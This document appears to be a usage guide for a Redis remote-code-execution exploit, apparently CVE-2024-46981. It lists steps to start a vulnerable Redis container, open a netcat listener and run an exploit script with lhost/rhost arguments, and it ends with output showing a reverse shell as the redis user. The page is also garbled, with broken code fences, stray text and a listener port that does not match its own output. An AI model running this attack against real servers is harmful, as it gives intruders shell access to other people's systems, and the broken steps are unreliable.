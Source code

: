 To run the exploit please extract the attached ZIP and follow these steps on Linux:

1. Set up a virtualenv/install the Redis client 

```
pip install -r requirements.txt
```

2. In another terminal, run the Redis docker image
	- Or build from source and run on a support platform
		- The exploit has been tested and works on Fedora 40/Ubuntu 24.04
```

```
zone ip
```
$ docker run --network host redis:7.2.5 --bind 0.0.0.0 
$ redis-cli -h x.x.x.x -p 6379
x。x.x.x:6379> exit
check connection

```

3. Get the ip address of your host on the docker network

```
$ ifconfig
 
docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:53ff:fecc:6e16  prefixlen 64  scopeid 0x20<link>
        ether 02:42:53:cc:6e:16  txqueuelen 0  (Ethernet)
        RX packets 69  bytes 4268 (4.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 133  bytes 269173 (262.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

4. In another terminal, run an netcat listener:

```
$ nc -nlvp 12345
```

5. Run the exploit:
	-  Replace `lhost` with your docker ip address

```
$ python3 exploit.py --lhost x.x.x.x --lport 12345 --rhost localhost 
```
python .\redis-2024-46981.py --lhost 192.168.254.194 --lport 12345 --rhost 192.168.254.162
```
6. You should receive a connection

```
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:2222
Ncat: Listening on 0.0.0.0:2222
Ncat: Connection from 172.17.0.2:36518.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
redis@4d1537f2dd4e:/data$

```
